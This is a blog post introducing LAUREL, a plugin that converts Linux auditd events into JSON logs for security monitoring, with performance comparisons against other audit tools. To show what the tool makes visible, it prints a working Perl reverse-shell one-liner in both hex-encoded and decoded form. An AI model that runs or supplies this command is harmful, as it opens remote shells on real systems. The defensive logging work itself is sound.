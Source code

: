 ```yaml
---
date: 2021-12-25
draft: false
title: "LAUREL: Linux Audit – Usable, Robust, Easy Logging"
categories: [posts]
tags: [post, blog]

---
```

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.
### Why?
Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:

```json
{
    [...]
    "EXECVE": {
        "argc": 3,
        "ARGV": [
            "perl",
            "-e",
            "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"
        ]
    },
    [...]
}
```

This happens at the source. The generated event even contains useful information about the spawning process:

```
"PARENT_INFO":{"ARGV":["bash"],"launch_time":1626611323.973,"ppid":3190631}
```

### Description

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful in a SIEM context (if a useful rule set has been configured). However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical_auditd_problems]("https://github.com/threathunters-io/laurel/blob/master/practical-auditd-problems.md").

_LAUREL_ solves these problems by consuming audit events, parsing and transforming them into more data and writing them out as a JSON-based log format, while keeping all information intact that was part of the original audit log. It does not replace auditd as the consumer of audit messages from the kernel. Instead, it uses the audisp ("audit dispatch") interface to receive messages via _auditd(8)_. Therefore, it can peacefully coexist with other consumers of audit events (e.g. some EDR products).

Refer to [JSON-based log format]("https://github.com/threathunters-io/laurel/blob/master/json-format.md" target="_blank") for a description of the log format. We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to ![Performance]("https://github.com/threathunters-io/laurel/blob/master/performance.svg" "Figure 1: Performance") for details.

### LAUREL Performance
While LAUREL was written with performance in mind, running it on busy systems with audit rule sets that actually produce log entries does incur some CPU overhead.

We have conducted benchmarks of LAUREL against auditd and several other tools. A load generator that spawns trivial processes (/bin/true) at a set frequency was used to generate load and CPU time (system+user) for all processes involved was measured. The number of exec events per second was chosen due to our experience with systems where hundreds of processes are spawned during regular operation. A custom tool, edr-loadgen, was written for this task.

As can be seen in the graph CPU consumption by auditd(8), its event dispatcher, and LAUREL combined is about twice as high as with a plain _auditd(8)_ setup using the log_format=ENRICHED configuration option. We still see several oppurtunities for improvements.

All measurements involving the Linux audit framework were conducted on an AWS EC2 t2.small instance running Amazon Linunx 2. Since Sysmon for Linux does not (yet?) support that distribution's kernel version, it was tested on Ubuntu 20.04.

### Notes

CPU usage for all user-space processes that are involved in collecting and emitting events was measured. In LAUREL's case, this included auditd and audispd. Sysmon for Linux writes its events through systemd-journald(8), so its CPU usage also had to be taken into account. Both go-audit and auditbeat are replacements for auditd that directly consume events from the kernel, so CPU usage had to be recorded only for one process. The numbers for Sysmon for Linux should be taken with a grain of salt since the experiments conducted so far only took CPU usage into account that was directly attributed to user-space processes. We are open to suggestions on how to compare the kernel/user interface for the Linux audit framework to the eBPF probes used by Sysmon. The log file produced by go-audit is JSONL-based which might lead to the conclusion that replacing auditd with go-audit might be a good choice. However go-audit solves only one of the log format quirks described in Practical auditd(8) problems and does not even perform all of the translations that auditd does when configured with log_format=ENRICHED.

GIT repository [here]("https://github.com/threathunters-io/laurel") 